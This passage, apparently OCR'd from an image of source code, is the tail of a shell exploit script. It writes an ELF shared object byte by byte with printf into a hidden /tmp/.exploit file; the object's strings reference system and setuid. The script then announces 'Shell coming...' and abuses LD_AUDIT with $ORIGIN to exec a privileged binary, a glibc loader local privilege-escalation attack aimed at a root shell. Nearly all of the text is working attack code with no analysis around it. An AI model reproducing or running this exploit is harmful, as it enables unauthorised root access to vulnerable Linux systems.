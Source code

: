     printf "\000\000\000\000\001\000\020\000\105\000\000\000\264\025\000\000" >>/tmp/.exploit
    printf "\004\000\000\000\001\000\025\000\123\000\000\000\270\025\000\000" >>/tmp/.exploit
    printf "\001\000\000\000\001\000\025\000\142\000\000\000\140\003\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\002\000\012\000\170\000\000\000\340\003\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\002\000\012\000\021\000\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\004\000\361\377\204\000\000\000\270\024\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\001\000\016\000\221\000\000\000\254\004\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\001\000\015\000\237\000\000\000\304\024\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\001\000\020\000\253\000\000\000\120\004\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\002\000\012\000\301\000\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\004\000\361\377\305\000\000\000\230\025\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\001\002\361\377\333\000\000\000\310\024\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\001\002\021\000\350\000\000\000\300\024\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\001\002\017\000\365\000\000\000\027\004\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\002\002\012\000\014\001\000\000\314\024\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\001\002\361\377\025\001\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\040\000\000\000\044\001\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\040\000\000\000\070\001\000\000\204\004\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\022\000\013\000\076\001\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\175\000\000\000\022\000\000\000\120\001\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\145\000\000\000\022\000\000\000\142\001\000\000\264\025\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\020\000\361\377\156\001\000\000\274\025\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\020\000\361\377\163\001\000\000\034\004\000\000" >>/tmp/.exploit
    printf "\062\000\000\000\022\000\012\000\170\001\000\000\264\025\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\020\000\361\377\177\001\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\132\001\000\000\042\000\000\000\233\001\000\000\310\002\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\022\000\010\000\000\143\141\154\154\137\147\155" >>/tmp/.exploit
    printf "\157\156\137\163\164\141\162\164\000\143\162\164\163\164\165\146" >>/tmp/.exploit
    printf "\146\056\143\000\137\137\103\124\117\122\137\114\111\123\124\137" >>/tmp/.exploit
    printf "\137\000\137\137\104\124\117\122\137\114\111\123\124\137\137\000" >>/tmp/.exploit
    printf "\137\137\112\103\122\137\114\111\123\124\137\137\000\144\164\157" >>/tmp/.exploit
    printf "\162\137\151\144\170\056\065\067\071\063\000\143\157\155\160\154" >>/tmp/.exploit
    printf "\145\164\145\144\056\065\067\071\061\000\137\137\144\157\137\147" >>/tmp/.exploit
    printf "\154\157\142\141\154\137\144\164\157\162\163\137\141\165\170\000" >>/tmp/.exploit
    printf "\146\162\141\155\145\137\144\165\155\155\171\000\137\137\103\124" >>/tmp/.exploit
    printf "\117\122\137\105\116\104\137\137\000\137\137\106\122\101\115\105" >>/tmp/.exploit
    printf "\137\105\116\104\137\137\000\137\137\112\103\122\137\105\116\104" >>/tmp/.exploit
    printf "\137\137\000\137\137\144\157\137\147\154\157\142\141\154\137\143" >>/tmp/.exploit
    printf "\164\157\162\163\137\141\165\170\000\160\056\143\000\137\107\114" >>/tmp/.exploit
    printf "\117\102\101\114\137\117\106\106\123\105\124\137\124\101\102\114" >>/tmp/.exploit
    printf "\105\137\000\137\137\144\163\157\137\150\141\156\144\154\145\000" >>/tmp/.exploit
    printf "\137\137\104\124\117\122\137\105\116\104\137\137\000\137\137\151" >>/tmp/.exploit
    printf "\066\070\066\056\147\145\164\137\160\143\137\164\150\165\156\153" >>/tmp/.exploit
    printf "\056\142\170\000\137\104\131\116\101\115\111\103\000\137\137\147" >>/tmp/.exploit
    printf "\155\157\156\137\163\164\141\162\164\137\137\000\137\112\166\137" >>/tmp/.exploit
    printf "\122\145\147\151\163\164\145\162\103\154\141\163\163\145\163\000" >>/tmp/.exploit
    printf "\137\146\151\156\151\000\163\171\163\164\145\155\100\100\107\114" >>/tmp/.exploit
    printf "\111\102\103\137\062\056\060\000\163\145\164\165\151\144\100\100" >>/tmp/.exploit
    printf "\107\114\111\102\103\137\062\056\060\000\137\137\142\163\163\137" >>/tmp/.exploit
    printf "\163\164\141\162\164\000\137\145\156\144\000\151\156\151\164\000" >>/tmp/.exploit
    printf "\137\145\144\141\164\141\000\137\137\143\170\141\137\146\151\156" >>/tmp/.exploit
    printf "\141\154\151\172\145\100\100\107\114\111\102\103\137\062\056\061" >>/tmp/.exploit
    ls -l /tmp/.exploit

    echo "Shell coming..."
    LD_AUDIT="\$ORIGIN" exec /proc/self/fd/3